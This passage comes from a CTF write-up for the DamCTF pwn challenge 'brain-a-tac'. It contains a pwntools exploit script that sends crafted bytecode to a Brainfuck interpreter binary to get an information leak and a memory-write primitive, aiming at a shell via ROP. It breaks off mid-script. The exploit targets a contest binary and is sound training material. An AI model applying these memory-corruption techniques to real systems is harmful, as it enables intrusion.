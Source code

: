 ### Solve scripts

I placed here both White's and my solution. We used pwninit to get a patched binary that works with the libc; that is why you will see *bf_patched* instead of *bf*.

#### The vulnerability researcher's solution (drec)

For some reason that I haven't really investigated, there might be times when remote starts giving chars in short bursts... When that happens, I just re-run the script.

Running with remote target prints the flag for you. Running a local process spawns an interactive shell.

```python
#!/usr/bin/env python3
from pwn import *
import sys

elf = context.binary = ELF("./bf_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

if args.REMOTE:
    io = remote('brain-a-tac.chals.damctf.xyz', 31337)
else:
    io = process([elf.path, ">,[[>],[<]>-]-[>]-[<.+]++++++++++."], aslr=False)

def real_send(bv: bytes):
    if bv != b'\x00':
        io.send(bv * 3)
    else:
        io.send(bv)

def stop_reading(bv = b'1'):
    io.send(bv + b'\x00')

info("modifying bytecode to get an info leak loop")
# fill the mem
io.send(b'\xff\x00' * 0x2b
        +
        b'\x01\x00\x04\x01\x00\x41\x07\x01'
        b'\x01\x04\x00\x00\x01\x03\x00\x01'
        b'\x00\x04\x00\x00\x00\x08\x01\x04'
        b'\x00\x07\x00\x05\x04\x00\x08\x01'
        b'\x00\x01\x01\x01')
success("bytecode modified! we now have info leak loop")

'''
We end up with this nice information leak and some nice memory write primitive
but I won't use this write primitive for ROP,
but I will use it to write another bytecode for another memory write

CODE:   0x00007fffffffe168
...
  84: 04fd0004  getc    [mp]
  88: 000d0107  jz      0xb4
  8c: 01064104  getc    [mp]
  90: 00000101  inc     mp
  94: 00010003  putc    [mp]
  98: 00000004  getc    [mp]
  9c: 00040007  jz      0x90
  a0: 00010008  jnz     0x84
...

It's very possible to use this to write your ROP with this.
```